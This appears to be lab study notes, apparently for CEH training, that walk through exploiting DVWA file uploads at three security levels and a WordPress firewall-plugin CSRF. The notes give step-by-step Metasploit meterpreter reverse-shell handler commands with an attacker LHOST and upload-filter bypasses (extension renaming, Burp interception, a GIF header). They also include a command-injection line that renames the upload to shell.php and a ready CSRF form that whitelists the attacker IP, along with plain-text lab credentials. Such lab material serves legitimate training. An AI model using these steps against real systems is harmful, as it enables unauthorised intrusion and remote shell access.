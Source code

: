 
**Low Level Exploitation**

- Upload the file | note the path /dvwa/hackable/uploads/<filename>.php
- Run listener by starting msfconsole
- Type ***use exploit/multi/handler***.
- Type ***set payload php/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit***
- Browse link of file to start meterpreter session.


**Medium Level Exploitation**

- Rename file as <filename>.php.jpg
- While uploading, intercepting with burp and rename back to <filename>.php
- Run listener by starting msfconsole
- Type ***use exploit/multi/handler***.
- Type ***set payload php/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit***
- Browse link of file to start meterpreter session.


**High Level Exploitation**

- Open the <filename>.php file and add code **GIF98** at start and save file as <filename>.jpg
- Upload file
- Now go to command execution tab and use command **<Some IP>||copy C:\wamp64\www\DVWA\hackable\uploads\<filename>.jpg C:\wamp64\www\DVWA\hackable\uploads\shell.php**
- Run listener by starting msfconsole
- Type ***use exploit/multi/handler***.
- Type ***set payload php/meterpreter/reverse\_tcp***.
- Type ***set LHOST 10.10.10.11***.
- Start listener, type ***exploit***
- Browse link of file to start meterpreter session.


**Cross-Site Request Forgery (CSRF)**

- Open **<http://10.10.10.12:8080/CEH/wp-login.php>** | admin:qwerty@123
- Plugins à Installed Plugins à Firewall 2 à Settings à View Whitelisted IP
- Run command ***wpscan -u http://10.10.10.12:8080/CEH --enumerate vp*** |*** vp vulnerable plugins
- Create a form with code
- Save as <filename.html>

<form method="POST" action="http://10.10.10.12:8080/CEH/wp-admin/options-general.php? page=wordpress-firewall-2%2Fwordpress-firewall-2.php">![](Aspose.Words.d0cd723f-6a3f-467b-98ed-f44d8141dfdc.003.png)

<script>alert("As an Admin, To enable additional security to your Website. Click Submit")</script> <input type="hidden" name="whitelisted\_ip[]" value="10.10.10.11" >

<input type="hidden" name="set\_whitelist\_ip" value="Set Whitelisted IPs" class="button- secondary">

<input type="submit">
